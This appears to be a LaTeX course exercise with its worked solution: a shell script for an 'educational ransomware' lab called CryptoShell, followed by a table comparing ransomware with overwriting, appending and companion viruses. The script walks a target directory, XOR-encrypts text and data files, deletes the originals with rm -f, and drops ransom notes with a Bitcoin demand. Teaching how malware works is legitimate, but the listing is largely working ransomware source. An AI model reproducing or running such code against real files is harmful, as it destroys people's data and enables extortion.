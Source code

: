 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[CryptoShell Project --- Educational Ransomware]
\begin{correction}
\begin{lstlisting}[title=cryptoshell.sh (phase3\_ransom.sh)]
KEY=$(generate_key 8)
echo "$KEY" > "$KEY_FILE"

create_ransom_note() {
    local dir="$1"
    cat > "${dir}/RANSOM_NOTE.txt" << EOF
============================================
    CRYPTOSHELL — YOUR FILES ARE ENCRYPTED
============================================
Victim ID: ${VICTIM_ID}
Send 0.5 BTC to [FAKE ADDRESS — EDUCATIONAL LAB]
Contact: cryptoshell@fake-educational.example
[This is an educational exercise]
============================================
EOF
}

echo "[CryptoShell] Encrypting..."
find "$TARGET_DIR" -type f \( -name "*.txt" -o -name "*.dat" \) | while read filepath; do
    case "$filepath" in *.locked) continue ;; esac
    [ "$(basename "$filepath")" = "RANSOM_NOTE.txt" ] && continue
    xor_file "$filepath" "${filepath}.locked" "$KEY"
    rm -f "$filepath"
    echo "  [+] $(basename "$filepath") -> $(basename "$filepath").locked"
    DIR=$(dirname "$filepath")
    if [ ! -f "${DIR}/RANSOM_NOTE.txt" ]; then
        create_ransom_note "$DIR"
    fi
done
echo "[CryptoShell] Encryption complete. ID: $VICTIM_ID"
\end{lstlisting}

\textbf{3d)} Comparison of ransomware vs. classic techniques:

\begin{center}
\begin{tabular}{lp{5.5cm}p{5.5cm}}
\toprule
\textbf{Technique} & \textbf{Action on file} & \textbf{Reversibility} \\
\midrule
\textbf{Overwriting} & Replaces content with viral code & Irreversible (data destroyed) \\
\textbf{Appending} & Adds viral code at end & Reversible (remove appended code) \\
\textbf{Companion} & Does not modify original file & Reversible (delete companion) \\
\textbf{Ransomware} & Replaces content with encrypted version & Reversible \textbf{if} key is known \\
\bottomrule
\end{tabular}
\end{center}

\textbf{Similarities:} Like the overwriting virus, ransomware \textbf{replaces} file content. Like the appending virus, it uses an \textbf{anti-reinfection} mechanism (checking the \texttt{.locked} extension).

\textbf{Fundamental differences:} (1) Ransomware does not \textbf{append} itself --- it replaces content with an encrypted version. (2) Ransomware does not \textbf{spread} into executables --- it targets \textbf{data}. (3) Reversibility depends on the \textbf{key}: this is the economic leverage of ransomware.


\end{correction}
\end{exercice}
\end{document}
